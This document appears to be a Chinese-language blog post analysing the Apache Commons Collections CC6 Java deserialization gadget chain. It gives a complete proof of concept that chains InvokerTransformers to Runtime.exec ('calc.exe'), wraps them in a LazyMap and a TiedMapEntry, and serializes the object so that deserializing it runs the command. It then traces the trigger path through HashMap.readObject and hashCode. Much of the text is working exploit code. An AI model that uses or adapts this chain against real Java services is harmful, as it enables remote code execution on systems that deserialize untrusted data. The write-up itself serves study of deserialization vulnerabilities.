

利用链源码
```java
package com.example.demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonCollection6 {
	public static void main(String[] args) throws Exception {
		// 执行类
		Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
		final Transformer[] transformers = new Transformer[]{
			new ConstantTransformer(Runtime.class),
			new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
			new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
			new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
			new ConstantTransformer(1)
			};
		Transformer transformerChain = new ChainedTransformer(transformers);
		Map innerMap = new HashMap();
		innerMap.put("value", "Ki1ro");
		Map outerMap = LazyMap.decorate(innerMap, transformerChain);
		
		
		// 触发类
		Map obj = new HashMap();
		TiedMapEntry tm = new TiedMapEntry(outerMap, "Ki1ro");
		obj.put(tm, "Ki1ro");
		//        outerMap.remove("Ki1ro");
		// 序列化
		ByteArrayOutputStream bo = new ByteArrayOutputStream();
		ObjectOutputStream oos = new ObjectOutputStream(bo);
		oos.writeObject(obj);
		oos.close();
		//        bo.close();
		System.out.println(bo);
		// 反序列化
		ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bo.toByteArray()));
		Object ob = (Object) ois.readObject();
	}
}

```
CC6的思路和CC1相似，都是触发Map.get来进行命令执行<br />CC6这里是利用TiedMapEntry的hashcode方法
```java
public int hashCode() {
	Object value = this.getValue();
	return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
}
```
其中的getValue调用了get
```java
public Object getValue() {
	return this.map.get(this.key);
}
```
现在我们就要寻找可以通向TiedMapEntry.hashcode的链子<br />我们发现HashMap类的readObject能够成功实现<br />实现链如下<br />readObject的41行调用了hash，跟进
```java
private void readObject(java.io.ObjectInputStream s)
	throws IOException, ClassNotFoundException {
	// Read in the threshold (ignored), loadfactor, and any hidden stuff
	s.defaultReadObject();
	reinitialize();
	if (loadFactor <= 0 || Float.isNaN(loadFactor))
		throw new InvalidObjectException("Illegal load factor: " +
										 loadFactor);
	s.readInt();                // Read and ignore number of buckets
	int mappings = s.readInt(); // Read number of mappings (size)
	if (mappings < 0)
		throw new InvalidObjectException("Illegal mappings count: " +
										 mappings);
	else if (mappings > 0) { // (if zero, use defaults)
		// Size the table using given load factor only if within
		// range of 0.25...4.0
		float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
		float fc = (float)mappings / lf + 1.0f;
		int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
				   DEFAULT_INITIAL_CAPACITY :
				   (fc >= MAXIMUM_CAPACITY) ?
				   MAXIMUM_CAPACITY :
				   tableSizeFor((int)fc));
		float ft = (float)cap * lf;
		threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
					 (int)ft : Integer.MAX_VALUE);
		
		// Check Map.Entry[].class since it's the nearest public type to
		// what we're actually creating.
		SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
		@SuppressWarnings({"rawtypes","unchecked"})
		Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
		table = tab;
		
		// Read the keys and values, and put the mappings in the HashMap
		for (int i = 0; i < mappings; i++) {
			@SuppressWarnings("unchecked")
			K key = (K) s.readObject();
			@SuppressWarnings("unchecked")
			V value = (V) s.readObject();
			putVal(hash(key), key, value, false, false);
		}
	}
}

```
跟进hash可以发现调用了key.hashCode，以此我们可以实现
```java
static final int hash(Object key) {
	int h;
	return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
触发类的代码实现
```java
Map obj = new HashMap();
TiedMapEntry tm = new TiedMapEntry(outerMap, "Ki1ro");
obj.put(tm, "Ki1ro");
```
前面的执行类与CC1相同
```java
// 执行类
Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
final Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
	new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
	new ConstantTransformer(1)
	};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
innerMap.put("value", "Ki1ro");
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```
对其obj进行序列化
```java
// 序列化
ByteArrayOutputStream bo = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bo);
oos.writeObject(obj);
oos.close();
```
再反序列化成功命令执行<br />
